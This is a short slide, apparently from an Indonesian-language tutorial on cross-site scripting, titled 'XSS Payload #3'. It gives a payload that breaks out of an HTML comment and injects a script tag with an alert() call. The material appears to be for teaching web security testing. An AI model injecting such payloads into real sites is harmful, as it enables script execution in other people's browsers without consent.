

# XSS Payload #3
Digunakan jika input muncul di dalam comment html.
--><script>alert(123)</script>